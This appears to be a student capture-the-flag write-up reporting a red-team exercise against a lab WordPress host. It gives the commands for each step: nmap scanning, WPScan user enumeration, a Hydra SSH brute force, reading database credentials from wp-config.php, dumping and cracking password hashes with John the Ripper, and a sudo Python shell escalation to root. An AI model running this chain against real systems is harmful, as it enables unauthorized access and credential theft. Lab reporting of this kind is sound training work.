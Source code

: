 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

The following services and OS data are revealed by the Nmap scan results for each machine:

$ nmap -A 192.168.1.0/24
- ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/nmapscan.png)

This scan finds the following services as potential ports of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

On each target, the following vulnerabilities were discovered:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - There is no implementation of file security permission.
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was successful in breaching 'Target 1' and obtaining the following sensitive information:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan is being used to count the number of users on the Target 1 WordPress site.
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/wpscan.png)
 
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/fpanesFinal-Project/blob/main/Images/Offensive/bruteforcemike.png)

    - Capturing Flag 1: As Michael, I went through directories and files following an SSH Brute Force Attack.
      - Flag1 was discovered in the var/www/html folder at the root in service.html in an HTML remark below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael

        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt

  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - MySQL was used to examine the database after discovering wp-config.php and getting access to the database credentials as Michael.
        - the wp-config.php displayed DB_Password in plaintext

        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;

  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by collecting user credentials from the database, running john the ripper to crack the password hash, then gaining root access using Python Escalation Privileges.
        - After gaining access to the database credentials as Michael through the sp-config.phpfile, the next step was to decrypt password hashes obtained from MySQL.
        - These user credentials are saved in the WordPress database's wp_users table.
        - The usernames and password hashes were recorded in a file named wp hashes.txt on the Kali computer.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;

        - When I exported the hashes, I stored them separately as stevenhash.txt and michaelhash.txt and cracked the hashes using John the Ripper.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of the john the ripper continued; however, we already knew the password from the prior action.

          - After cracking Steven's password hash, the next step was to SSH as Steven. Then, as Steven, use Python to check for privilege and escalate to root.
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
